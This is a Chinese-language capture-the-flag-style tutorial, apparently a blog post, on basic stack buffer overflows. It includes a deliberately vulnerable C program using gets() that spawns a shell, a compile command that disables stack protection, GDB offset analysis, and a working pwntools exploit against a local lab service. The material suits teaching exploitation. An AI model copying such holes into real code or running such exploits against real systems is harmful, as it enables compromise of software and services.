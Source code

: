 ```yaml
---
title: "Day6－Basic buffer overflow"
date: 2024-09-06
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

經歷了前面的許多基礎知識與工具介紹，終於來到了第一個漏洞與第一個 lab。而這個漏洞可以說是最簡單也最基本的，就是 **Buffer Overflow**。

## 介紹

首先，先來看一個簡單例子。假如一個程式宣告了一些變數及字串，記憶體中的狀態可能會是下圖的樣子：

![image](https://hackmd.io/_uploads/HJzgm5OhR.png)

如果對 `buf` 字串輸入正常大小的資料，例如這邊宣告的空間是 0x10（16 bytes），輸入 0x10 個 'A'，記憶體狀態可能會像下圖這樣：

![image](https://hackmd.io/_uploads/ByVt7cO2A.png)

然而，當使用一些不安全的函式來輸入數據時，例如 `gets` 函式，可能會產生問題。因為 `gets` 不會檢查輸入的長度，因此可能會覆蓋到 `buf` 後面的變數，甚至是 `rbp` 或 `return address`。以下例子顯示了覆蓋到後面變數 `num3` 和 `num4` 的情況：

![image](https://hackmd.io/_uploads/H12fEqd2R.png)

如果對填入的值進行精確的編排，則可能成為如下所示的情況：

![image](https://hackmd.io/_uploads/HkmLV5_2C.png)

這就是最基本的 **Buffer Overflow** 例子。

## Lab

查看以下程式原始碼

```c=
#include<stdio.h>
int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    int a = 10;
    printf("Please input your name: ");
    char b[10];
    gets(b);
    if(a == 0xdeadbeef){
        system("/bin/sh");
    }
    printf("Hello, %s\n", b);
    return 0;
}
```

使用以下指令進行編譯

```sh=
gcc ./src/bof.c -o ./bof/share/bof -fno-stack-protector
```

大家可以先行使用 GDB 搭配 pwntools 實作題目。如果想提前了解解答，可以繼續閱讀本文中的解說。

## writeup

可以發現程式在第 9 行使用了上面提到的 `gets` 函式來讀取 `b` 字串。接下來，有一個判斷條件是檢查變數 `a` 是否等於 `0xdeadbeef`，如果相等，則會開啟一個 shell。因此，我們的目標有以下兩點：

- 找出需要填充多少字元才能將 `a` 覆蓋為 `0xdeadbeef`。
- 如何將值覆蓋成 `0xdeadbeef`。
為了解決第一個問題，我們可以使用 `objdump` 來 disassemble 程式。會發現在 `gets` 函式之前，程式會為 `buf` 分配空間，對 `lea rax,[rbp-0xe]` 記憶體進行操作。接著，在輸入結束後，程式會使用 `cmp DWORD PTR [rbp-0x4],0xdeadbeef` 進行比較。這告訴我們填充的字元數量是 `0xe - 0x4 = 0xa`，即 10 個字元。

![image](https://hackmd.io/_uploads/HkWpIc_n0.png)

當然，除了使用 `objdump` 進行 disassemble 外，也可以使用 GDB 直接觀察程式。首先，使用 GDB 啟動程式（如 `gdb ./bof`），設置斷點在 `main` 函式處（`b main`），並執行程式（`r`）。接著，逐步執行程式（`ni`），直到輸入字串處。這時，我們可以輸入有規律的字元，觀察覆蓋位置，例如輸入 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ。

![image](https://hackmd.io/_uploads/ry2au5O3R.png)

輸入後，我們可以檢查記憶體中的值，會發現覆蓋了兩個 `0x43` 和四個 `0x44`，即 `CCDDDD`。依照剛剛的輸入字串，發現我們需要覆蓋 `AAAABBBBCC`，也就是 `10` 個字元。

![image](https://hackmd.io/_uploads/HywuYqdnR.png)

接下來，我們需要使用 `pwntools` 將 `0xdeadbeef` 覆蓋到適當的位置。使用 `checksec` 可以確認這個檔案是 64 位元，這樣我們就可以使用 `p64()` 來將 `0xdeadbeef` 轉換成 `64` 位格式並覆蓋變數。

![image](https://hackmd.io/_uploads/Sk_Y5qO3A.png)

以下會發現我有留了一行遠端連線的程式碼，這是因為筆者的檔案有附上 docker-compose.yml 跟 DockerFile 跟 xinetd，所以可以讓讀者將題目架起來並實際做練習

完整 exploit：

```py=
from pwn import *
# r = process('./bof')
r = remote('127.0.0.1', 10000)
r.sendlineafter(b'Please input your name: ', b'AAAAAAAAAA' + p64(0xdeadbeef))
r.interactive()
```

以下是將題目實際架起來並拿到 flag 的結果

solved！！

![image](https://hackmd.io/_uploads/rkH-pquhR.png)
